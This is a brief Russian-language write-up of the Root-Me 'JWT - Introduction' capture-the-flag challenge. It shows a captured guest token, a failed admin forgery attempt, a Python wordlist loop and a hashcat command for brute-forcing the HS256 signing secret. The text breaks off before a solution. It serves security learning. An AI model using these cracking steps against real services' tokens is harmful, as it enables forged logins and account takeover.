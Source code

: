 <--https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction-->

1. Во-первых я вошел в форму логина, и залогинился как гость. В запросах к я увидел заголовок jwt с токеном: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
2. ![изображение](https://github.com/MysterYXY01/B-gD-ck/assets/132662542/4ca5df63-ff7d-4e38-bd7a-e31a43e1718b)
3. Посмотрев сразу становиться поятным, что нужно поменять guest на admin. Однако в ответе поучаем Wrong signature
4. Сразу я не заметил, однако и на скрине видно, что подпись невалидная. Это не натолкнуло меня на мысль того, что подпись там вообще может и не быть и я решил перебором сломать
   её.
   Два варианта:
    ```import jwt
    #encoded = jwt.encode({'username': 'admin'}, '123456', algorithm='HS256')
    encoded = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk'
    with open('jwtwordlist', 'r') as file:
        for line in file:
            try:
                print(jwt.decode(encoded, line, algorithms=['HS256']))
            except:
                continue```

   Hashcat: ```hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/wifite.txt```
  
